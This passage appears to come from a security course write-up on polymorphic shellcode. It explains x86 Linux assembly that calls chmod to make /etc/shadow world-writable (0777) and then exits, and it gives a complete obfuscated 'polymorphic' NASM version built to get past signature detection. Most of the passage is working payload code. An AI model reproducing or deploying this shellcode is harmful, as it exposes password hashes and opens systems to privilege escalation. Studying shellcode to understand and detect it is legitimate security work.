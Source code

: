 ```nasm
	mov cx, 0x1ff

	int 0x80

	inc eax

	int 0x80
```

Briefly, 2 syscalls are executed, indicated by the 2 times of the instruction: `int 0x80`. The first syscall is `chmod` and its number `15` is passed to `EAX`. Then the string "//etc/shadow" is pushed to the stack and then saved to `EBX` register. After that, the hex value `0x1ff` (`777` in octal) is passed to `ECX` register. The `chmod` syscall is now executed. If the execution of `chmod` is successful, `0` is returned and saved in `EAX`. The value of `EAX` is incremented by `1`, so it becomes `1`, which is the value of the `exit` syscall. Finally, the `exit` syscall is executed.

The polymorphic version (`chmod.nasm`) is the following:

```nasm
global _start

section .text
_start:

	xor eax, eax		; clear eax

	push eax		; push the value 0 to the stack
	
	mov al, 0xf		; f is the hex value of the decimal 15 for chmod syscall

	; push 0x776f6461
	mov dword [esp-4], 0x776f6461 	; "adow" is saved to the stack

	; push 0x68732f63
	mov dword [esp-8], 0x68732f63	; "c/sh" is saved to the stack

	; push 0x74652f2f
	mov dword [esp-12], 0x74652f2f	; "//et" is saved to the stack

	sub esp, 12		; esp points at the top of the stack, where is th string "//etc/shadow"

	mov ebx, esp		; ebx now points at the string at the top of the stack

	mov cx, 0x1ff		; 1ff is the hex value for the octal 777 (permissions)

	int 0x80		; exec chmod syscall
	
	inc eax			; increment eax to 1

	int 0x80		; exec exit syscall
```

The comments are self-explanatory for the functionality of this program, which is the same as the original.
